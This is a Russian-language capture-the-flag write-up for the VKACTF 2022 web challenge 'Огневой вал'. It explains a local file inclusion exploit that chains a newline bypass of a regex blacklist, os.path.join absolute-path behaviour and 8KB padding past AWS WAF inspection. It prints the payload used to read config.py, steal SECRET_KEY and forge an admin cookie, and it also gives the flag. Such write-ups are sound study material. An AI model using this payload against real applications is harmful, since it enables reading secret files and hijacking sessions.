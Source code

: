 ## Огневой вал

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2022 | Огневой вал  | Web | Средняя |

  
### Описание


> Автор: [ vChuk ]
>
> Стоит возле леса избушка на кибер-протезах. Многие молодцы просили их накормить и спать уложить хозяйку, да только не возвращался из них никто. Не доверяй своему зрению коли пойдешь к ней, не слушай речей сладких, не кушай яблочек красных – меч обнажи и только вперед иди…


### Решение
В веб приложении был функционал, позволяющий читать файлы других юзеров. На имя файла, была проверка
```python
BLACK_LIST = ["/", "#", "!", "@", ";", '"', "'"]

def validator(name):
    for element in BLACK_LIST:
        if re.match(rf".*{element}.*", name):
            return None, "Обнаружен запрещенный символ"
    if ".." in name: return None, "Обнаружен запрещенный символ!"   # <- DETECT LFI
    
    return name.strip(), None
```
Ошибка заключалась, в том, что re.match - ищет значения на первой строчке, т.е. до первого символа "\n". 

При составлении пути был контроль только над filename, ".." был явно запрещен, но os.path.join реалезован так, что если аргумент функции начнется с "/", путь будет составлен с корневой папки, и ошибки при этом не будет.     
```python
path = os.path.join(app.config['UPLOAD_FOLDER'],
                    usershare,
                    filename
                )
```

Последней защитой был WAF AWS. Его обход был возможен с помощью, так называемой [8KB bullet](https://kloudle.com/blog/the-infamous-8kb-aws-waf-request-body-inspection-limitation)

Объединив эти ошибки получаем возможность эксплуатации LFI.
Нагрузкой служит конструкция

```python
payload = " " * 1024 * 8
payload += "\n"
payload += full_path

# POST /share
usershare=some_username
filename = payload 
```
Через /download скачать было нельзя т.к. при такой конфигурации @app.route('/download/<filename>'), <filename> - все / считает как путь в url, а не название файла.

Т.к. неизвестно, какой файл необходимо прочиать, то остается вариант подделать сессию. SECRET_KEY находится в config.py

```python
payload = " " * 1024 * 8
payload += "\n"
payload += "/home/app/web/project/config.py"
```

Получив SECRET_KEY, генерируем куки admin и получаем файл c флагом. 

### Флаг

```
vka{waf_security_but_you_can_avoided_it}
```
